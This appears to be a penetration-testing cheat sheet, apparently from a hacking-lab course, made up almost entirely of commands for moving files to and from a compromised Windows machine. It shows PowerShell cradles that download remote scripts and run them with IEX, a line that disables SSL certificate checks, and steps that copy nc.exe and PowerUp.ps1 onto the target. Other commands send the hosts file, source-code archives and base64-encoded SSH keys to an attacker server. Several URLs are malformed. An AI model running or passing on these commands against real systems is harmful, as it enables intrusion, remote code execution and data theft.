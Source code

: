## Download
#### Net.WebClient 
```powershell
(New-Object Net.WebClient).DownloadFile('http://$ip','<Output>')
(New-Object Net.WebClient).DownloadFileAsync('http://$ip','<Output>')
(New-Object Net.WebClient).DownloadFile('http://$ip','<Output>') -UseBasicParsing

IEX(New-Object Net.WebClient).DownloadString('http://$ip')
(New-Object Net.WebClient).DownloadString('http://$ip') | IEX
(New-Object Net.WebClient).DownloadString('http://$ip') -UseBasicParsing| IEX
```

Possible issues and fixes:
1. Errors stemming from Internet Explorer in `Net.WebClient `can be fixed with                   `-UseBasicParsing`
2. Untrusted SSL Certificate issues can be fixed with the following:`[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`

####  Invoke-WebRequest
``` Powershell
iwr http://http://$ip/PowerUp.ps1 -o PowerUp.ps1
curl http://http://$ip/PowerUp.ps1 -o PowerUp.ps1
wget http://http://$ip/PowerUp.ps1 -o PowerUp.ps1
```
#### SMB
```bash
impacket-smbserver share -smb2support $(pwd)/share
impacket-smbserver share -smb2support $(pwd)/share -user adot -password adot

net share share=C:\AD\Tools\share /grant:Everyone,Full
```

```powershell
copy \\http://$ip\share\nc.exe
net use n: \\http://$ip\share /user:adot adot
```
#### FTP
```bash
python3 -m pyftpdlib --port 21
```

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://http://$ip/file.txt', 'C:\Users\Public\ftp-file.txt')
IEX(New-Object Net.WebClient).DownloadString('ftp://$ip')
```

```powershell
C:\htb> echo open http://$ip > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open http://$ip
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```
##### Base64 Conversion
```bash
md5sum id_rsa
cat id_rsa |base64 -w 0;echo
```

```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa",[Convert]::FromBase64String("LS0tLS1..."))

Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

## Upload
#### Web Uploads
```bash
python3 -m uploadserver
```
[PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1)
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://$ip/PSUpload.ps1')
Invoke-FileUpload -Uri http://http://$ip:8000/upload -File C:\Windows\System32\drivers\etc\hosts


$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
#### WebDav (SMB restrictions)
```bash
wsgidav --host=0.0.0.0 --port=80 --root=$(pwd) --auth=anonymous 
```

```powershell
dir \\http://$ip\DavWWWRoot
copy C:\Users\john\Desktop\SourceCode.zip \\http://$ip\DavWWWRoot\
```
#### FTP
```bash
python3 -m pyftpdlib --port 21 --write
```

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```
#### PowerShell Base64 Encode & Decode
```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```

```bash
echo IyBDb3B5cmln... | base64 -d > hosts

md5sum hosts 
```

